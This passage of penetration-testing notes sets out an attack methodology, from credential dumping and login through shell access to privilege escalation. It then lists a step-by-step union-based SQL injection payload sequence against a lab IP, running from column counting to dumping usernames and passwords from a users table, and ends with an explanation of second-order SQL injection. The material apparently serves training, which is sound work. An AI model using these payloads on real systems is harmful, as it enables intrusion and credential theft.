 \--\>dump credentials or file upload

\--\>login into application or ssh or database if port is open

\--\>if login into application enumerate application: such as file upload,rfi,command injection

5.Basic shell

6.Priviledge escalation

<http://192.168.216.136/cat.php?id=1'>

<http://192.168.216.136/cat.php?id=1> order by 1

<http://192.168.216.136/cat.php?id=1> order by 2

<http://192.168.216.136/cat.php?id=1> order by 3

<http://192.168.216.136/cat.php?id=1> order by 4

<http://192.168.216.136/cat.php?id=1> order by 5 (error)

<http://192.168.216.136/cat.php?id=-1> union select 1,2,3,4

<http://192.168.216.136/cat.php?id=-1> union select 1,@@version,3,4

<http://192.168.216.136/cat.php?id=-1> union select 1,database(),3,4

<http://192.168.216.136/cat.php?id=-1> union select 1,user(),3,4

<http://192.168.216.136/cat.php?id=-1> union select 1,table_name,3,4 from information_schema.tables

<http://192.168.216.136/cat.php?id=-1> union select 1,column_name,3,4 from information_schema.columns where table_name='users'

<http://192.168.216.136/cat.php?id=-1> union select 1,concat(id,0x3a,login,0x3a,password),3,4 from users

After below commands are scenario based blindly follow

1.  Fix the query
    1.  Find the total number of columns
    2.  Find the vulnerable columns
    3.  Execute any database steps to reflect back
    4.  Enumerate the tables, columns, and find out data.
1.  **What is second order SQL injection?**

Second-order SQL injection refers to a type of SQL injection attack that targets an application that does not directly execute the injected SQL command. Instead, the injected SQL code is stored in a database or a file and is later used by the application in another query.

For example, consider a web application that stores user comments in a database and then displays those comments on a webpage. An attacker could submit a comment that includes SQL code that is not directly executed by the application, but is stored in the database. Later, when the application retrieves the comments from the database to display on the webpage, it concatenates the stored SQL code with the rest of the query. This can result in the malicious SQL code being executed, allowing the attacker to perform actions such as accessing unauthorized data or modifying the database.

Identifying these vulnerabilities can be very hard, depending on the complexity and traceability of the application architecture and implementation.
